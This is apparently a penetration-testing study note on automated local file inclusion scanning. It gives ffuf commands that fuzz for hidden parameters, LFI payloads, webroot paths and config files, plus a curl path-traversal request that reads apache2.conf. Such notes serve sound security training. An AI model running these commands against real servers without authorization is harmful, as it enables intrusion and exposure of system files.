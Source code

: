 # Autometed Scanning

Web applications often have exposed parameters that are not linked to HTML forms, making them less secure. Fuzzing these parameters can reveal vulnerabilities. The `ffuf` tool can be used to fuzz GET parameters effectively.

#### Example of Fuzzing GET Parameters

{% code overflow="wrap" %}
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
{% endcode %}

This command will scan for exposed parameters and help identify potential LFI vulnerabilities.

[Wordlist](https://raw.githubusercontent.com/kafkaesqu3/fuzzing/refs/heads/master/parameters/burp-parameter-names.txt)

***

### 📜 LFI Wordlists

Manual crafting of LFI payloads is reliable, but quick tests using common LFI payloads can save time. A recommended wordlist is **LFI-Jhaddix.txt**, which contains various bypasses and common files.

#### Example of Fuzzing with LFI Wordlist

{% code overflow="wrap" %}
```bash
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
{% endcode %}

This command tests the `language` parameter for common LFI payloads.

[Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

***

### 🗂️ Fuzzing Server Files

Identifying server files can aid in LFI exploitation. Key files include the server webroot path, configuration files, and logs.

#### Finding the Server Webroot

To locate the server webroot path, fuzz for the `index.php` file using common webroot paths.

**Example of Fuzzing for Webroot Path**

{% code overflow="wrap" %}
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```
{% endcode %}

This command helps identify the correct webroot path.

[Linux Wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/default-web-root-directory-linux.txt)

[Windows Wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

***

### 📁 Server Logs/Configurations

Identifying logs and configuration files is essential for further exploitation. The **LFI-Jhaddix.txt** wordlist can be used to find these paths.

#### Example of Fuzzing for Server Configurations

{% code overflow="wrap" %}
```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```
{% endcode %}

This command scans for server configuration files, which may contain valuable information.

[Linux Wordlist](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

[Windows Wordlist](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)

#### Reading Configuration Files

To read a specific configuration file, use `curl`:

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
```

This retrieves the Apache configuration, revealing the webroot and log paths.

***

### 🛠️ LFI Tools

Several tools can automate the LFI exploitation process, such as [**LFISuite**](https://github.com/D35m0nd142/LFISuite), [**LFiFreak**](https://github.com/OsandaMalith/LFiFreak), and [**liffy**](https://github.com/mzfr/liffy). While these tools can save time, they may miss vulnerabilities that manual testing would catch. Most tools are outdated and rely on Python 2, so their long-term viability is questionable.

#### Conclusion

Utilizing both manual techniques and automated tools can enhance the effectiveness of identifying and exploiting LFI vulnerabilities. Always verify findings through manual testing to ensure accuracy.
